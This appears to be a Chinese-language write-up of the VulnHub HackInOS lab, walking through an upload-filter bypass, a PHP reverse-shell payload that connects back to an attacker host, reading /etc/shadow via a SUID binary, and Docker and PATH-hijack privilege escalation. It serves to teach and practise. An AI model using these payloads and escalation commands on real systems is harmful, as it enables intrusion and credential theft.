

HackInOS writeup
这个靶机还是很有意思的，学到不少东西，记录一下
下载地址：https://www.vulnhub.com/entry/hackinos-1,295/
靶机和攻击机均设为桥接模式
学到的新姿势
- 通过SUID查找可用命令
- 本地Docker提权
复现过程
首先arp-scan开路
得到靶机IP：172.20.10.6
然后用nmap扫一下，查看开启了什么服务
都是常规的服务，访问一下172.20.10.6:8000，发现是一个wordpress
扫一下网站目录
发现有robots.txt，可以在里边找到upload.php
看一下源码，发现有提示，可以在github上找到upload.php的源码
1 | <!DOCTYPE html> |
审计一波，发现仅检查了MIME，可以直接用gif文件的GIF89A绕过，难点在找到上传后的php文件，而且经过测试发现过一段时间还会把上传的文件删掉，所以要按照它的规则写个脚本来访问，找到上传的文件
脚本如下
1 |
|
如果报Call to undefined function curl_init()的错误，说明未安装拓展，用以下命令安装并重启apache即可
1 | sudo apt-get install php-curlsudo service apache2 restart |
上传的shell.php
1 | GIF89a<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.20.10.8/4396 0>&1'"); ?> |
找到上传的文件
在攻击机上监听端口，可以得到反弹过来的shell
查找具有SUID权限的文件
命令解释：从/目录中查找具有SUID权限位的文件，并将所有的错误重定向到/dev/null
可以用tail命令去读文件，尝试读一下/etc/shadow
然后用工具去跑一下，得到了root的密码

登陆一下，发现无法su，尝试获取一下交互式shellpython -c 'import pty; pty.spawn("/bin/bash")'
重新su，成功，但是查看flag时发现还没完
调整思路，发现一开始的wordpress还没利用上，看一下wordpress的配置文件
直接连接数据库看一看
看一下数据库，发现可以得到hummingbirdscyber的密码
去解一下md5，得到密码是123456
SSH登陆
这之后有两种做法，感觉docker提权是非预期操作
非预期解法
查看id
发现在docker用户组里，参考一下这篇文章，大致思路是将本机文件映射进docker里，而docker命令使用了sudo，可以提权
使用这条命令docker run -it -v /:/root ubuntu /bin/bash将/root路径下的文件映射到docker的根目录下，这时就可以查看flag了
预期解法
用之前的方法，找一下
发现了一个a.out，查看一下
运行后输出root并结束,推测应该是调用whoami
查看一下PATH环境变量，发现有点东西
参考一下这篇文章，直接用echo提权
我们可以劫持whoami，提权成功